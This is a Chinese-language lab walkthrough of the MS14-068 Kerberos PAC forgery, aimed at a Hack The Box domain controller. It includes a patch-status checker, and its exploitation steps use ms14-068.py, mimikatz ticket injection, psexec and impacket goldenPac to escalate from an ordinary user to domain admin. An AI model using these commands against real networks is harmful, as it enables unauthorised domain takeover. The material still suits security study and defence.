




危害：任意域控用户都可以提权到域控
一般为本地账户才能成功，但是使用klist purge清除缓存证书可绕过限制
一、漏洞成因
在 KDC 对 PAC 进行验证时，根据协议规定必须是带有 server Hash、KDC Hash 的签名算法才可以（原本的设计是 HMAC 系列的 checksum 算法），但微软在实现上，却允许任意签名算法。只要客户端指定任意签名算法，KDC 就会使用指定的算法进行签名验证，致使导致恶意用户在发送给KDC的TG_REQ中可以创建包含管理员帐户成员身份的伪造PAC被KDC接收，并将其放入TG_REP中发布的新TGT票证中。该票证可用于向KDC要求服务票证的服务升级特权：在这种情况下，是smb服务票证。
什么是PAC（特权帐户证书）：
PAC包含域控制器（DC）提供的授权数据，Active Directory将授权数据存储在PAC（特权帐户证书）的票证字段中。
PAC由DC在服务单的现场授权数据中提供。它用KDC密钥（只有AD知道）签名，并用要验证的服务和AD之间共享的服务密钥签名。
二、利用条件
1.域控机器没有打漏洞补丁 补丁号：KB3011780
2.拥有一台域内机子及其sid三、漏洞利用
漏洞检测：
FindSMB2UpTime.py(但是这个并不一定准确，因为域控是一般不会重启，但是也有存在意外重启的情况，那么即使有ms14-068也不会显示)
./FindSMB2UPTime.py 192.168.31.220
DC is up since: 2013-12-28 22:24:25
This DC is vulnerable to MS14-068获取域控制器补丁状态:Get-DCPatchStatus.ps1
# This is an example script only.
import-module activedirectory
[string]$KBNumber = "KB3011780"
$DomainControllers = Get-ADDomainController -filter *
[int]$DomainControllersCount = $DomainControllers.Count
[int]$PatchedDCCount = 0
[int]$UnPatchedDCCount = 0
$UnpatchedDCs = @()
Write-Output "Scanning $DomainControllersCount Domain Controllers for patch $KBNumber"
ForEach ($DomainController in $DomainControllers)
{
$DomainControllerHostName = $DomainController.HostName
$PatchStatus = Get-HotFix -ID $KBNumber -ComputerName $DomainController.HostName -ErrorAction SilentlyContinue
IF ($PatchStatus.InstalledOn)
{
$PatchStatusInstalledOn = $PatchStatus.InstalledOn
Write-Output "$DomainControllerHostName patched on $PatchStatusInstalledOn"
$PatchedDCCount++
}
Else
{
Write-Warning "$DomainControllerHostName is NOT patched for $KBNumber (or could not be contacted)"
[array]$UnpatchedDCs += $DomainController.HostName
$UnPatchedDCCount++
}
}
Write-Output "Out of $DomainControllersCount DCs, Patched: $PatchedDCCount & UnPatched: $UnPatchedDCCount "
IF ($UnpatchedDCs)
{
Write-Output "The following DCs are NOT patched for $KBNumber"
$UnpatchedDCs
}环境描述：
目标机器：10.10.10.52 Windows Server 2008 R2 Standard
已获取：DC上的一个普通本地账户
- james用户账户密码
- james sid （可通过多种途径获取rpclient：lookupnames james目标机器shell中：whoami /all ，）
攻击机：kali 10.10.14.14 （不在域中）
在Linux上：(没有目标shell的情况下)
1.安装客户端，在客户端生成票证
sudo apt-get install krb5-user cifs-utils rdate2./etc/hosts中添加：（内网机器没有映射，所以需要添加）
10.10.10.52 htb.local htb mantis.htb.local mantis3.编辑/etc/krb5.conf
[libdefaults]
default_realm = HTB.LOCAL
[realms]
HTB.LOCAL = {
kdc = mantis.htb.local:88
admin_server = mantis.htb.local
default_domain = HTB.LOCAL
}
[domain_realm]
.domain.internal = HTB.LOCAL
domain.internal = HTB.LOCAL4.添加路由：编辑/etc/resolve.conf
nameserver 10.10.10.525.同步域控时间（确定DC的时间（用于票证同步），按照RFC必须在5分钟内完成，但+ -30分钟的偏差也可以的）
[方法1]net time -S 10.10.10.52 -U“” ##获取DC时间，然后收到设置本机时间
[方法2]sudo rdate -n 10.10.10.52 ###直接同步到域控时间
6.为james用户生成一张新的Kerberos票证
kinit -V james@HTB.LOCAL ###kinit中域名需要大写；或直接 kinit james
klist
此时生成的是jame是的票证：访问C$是没有权限的
kali@kali:~/tools/AD_Recon/pykek$ smbclient -W HTB.LOCAL //MANTIS/c$ -k
tree connect failed: NT_STATUS_ACCESS_DENIED7.ms14-068生成高权限TGT票证

8.替换低权限票证
mv TGT_james@HTB.LOCAL.ccache /tmp/krb5cc_10009.smb成功登录C$

Mimikatz：
先在目标机器使用ms14-068.exe生成票据，然后使用mimikatz注入票据，再使用psexec获取权限或winexec执行命令
ms14-068.py -u james@HTB.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis将TGT_james@HTB.LOCAL.ccache文件放入mimikatz目录中
mimikatz.exe log "kerberos::ptc TGT_james@HTB.LOCAL.ccache" exit注入成功即可获得域管理session，可以klist看一下是否有了kerberos Ticket
net use \\htb.local\admin$ ####使用IP可能会失败
dir \\htb.local\c$
psexec \\htb.local cmd.exe突破“本地账户才能漏洞利用”的限制：
先 klist purgr清除缓存证书，再使用mimikatz生成高权限TGT的缓存证书进行连接
原理：https://www.freebuf.com/vuls/56081.html
GoldenPac,py
也有更简便的方法，不需要上边的种种配置，直接使用impacket套件下的GoldenPac一发入魂（ms14-068+psexec）
